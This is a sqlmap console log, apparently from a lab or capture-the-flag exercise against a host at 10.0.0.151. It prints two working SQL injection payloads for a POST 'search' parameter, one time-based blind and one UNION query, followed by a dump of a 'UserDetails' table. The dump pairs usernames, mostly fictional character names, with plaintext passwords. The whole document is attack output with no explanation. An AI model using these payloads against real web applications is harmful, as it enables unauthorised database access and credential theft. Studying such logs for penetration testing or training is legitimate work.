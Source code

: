 ```console
[12:05:05] [INFO] parsing HTTP request from 'request.req'
[12:05:05] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: search (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: search=asd' AND (SELECT 4062 FROM (SELECT(SLEEP(5)))ryqh) AND 'NvLD'='NvLD

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: search=asd' UNION ALL SELECT NULL,NULL,CONCAT(0x717a786a71,0x524e496b5750636b75576d6167794b57574b7553714a61694c434147436b45656e6976525a524a78,0x71716a7871),NULL,NULL,NULL-- -
---
[12:05:05] [INFO] testing MySQL
[12:05:05] [INFO] confirming MySQL
[12:05:05] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[12:05:05] [INFO] fetching tables for database: 'users'
[12:05:06] [INFO] fetching columns for table 'UserDetails' in database 'users'
[12:05:06] [INFO] fetching entries for table 'UserDetails' in database 'users'
Database: users
Table: UserDetails
[17 entries]
+------+------------+---------------------+-----------+-----------+---------------+
| id   | lastname   | reg_date            | username  | firstname | password      |
+------+------------+---------------------+-----------+-----------+---------------+
| 7    | Flintstone | 2019-12-29 16:58:26 | wilmaf    | Wilma     | Pebbles       |
| 6    | Mouse      | 2019-12-29 16:58:26 | jerrym    | Jerry     | B8m#48sd      |
| 5    | Cat        | 2019-12-29 16:58:26 | tomc      | Tom       | TC&TheBoyz    |
| 4    | Rubble     | 2019-12-29 16:58:26 | barneyr   | Barney    | RocksOff      |
| 3    | Flintstone | 2019-12-29 16:58:26 | fredf     | Fred      | 4sfd87sfd1    |
| 2    | Dooley     | 2019-12-29 16:58:26 | julied    | Julie     | 468sfdfsd2    |
| 1    | Moe        | 2019-12-29 16:58:26 | marym     | Mary      | 3kfs86sfd     |
| 17   | Morrison   | 2019-12-29 16:58:28 | janitor2  | Scott     | Hawaii-Five-0 |
| 16   | Trump      | 2019-12-29 16:58:26 | janitor   | Donald    | Ilovepeepee   |
| 15   | McScoots   | 2019-12-29 16:58:26 | scoots    | Scooter   | YR3BVxxxw87   |
| 14   | Buffay     | 2019-12-29 16:58:26 | phoebeb   | Phoebe    | smellycats    |
| 13   | Geller     | 2019-12-29 16:58:26 | monicag   | Monica    | 3248dsds7s    |
| 12   | Geller     | 2019-12-29 16:58:26 | rossg     | Ross      | ILoveRachel   |
| 11   | Green      | 2019-12-29 16:58:26 | rachelg   | Rachel    | yN72#dsd      |
| 10   | Tribbiani  | 2019-12-29 16:58:26 | joeyt     | Joey      | Passw0rd      |
| 9    | Bing       | 2019-12-29 16:58:26 | chandlerb | Chandler  | UrAG0D!       |
| 8    | Rubble     | 2019-12-29 16:58:26 | bettyr    | Betty     | BamBam01      |
+------+------------+---------------------+-----------+-----------+---------------+

[12:05:06] [INFO] table 'users.UserDetails' dumped to CSV file '/home/pablog/.sqlmap/output/10.0.0.151/dump/users/UserDetails.csv'
[12:05:06] [INFO] fetched data logged to text files under '/home/pablog/.sqlmap/output/10.0.0.151'
[12:05:06] [WARNING] you haven't updated sqlmap for more than 81 days!!!

[*] ending @ 12:05:06 /2020-07-22/
```
---

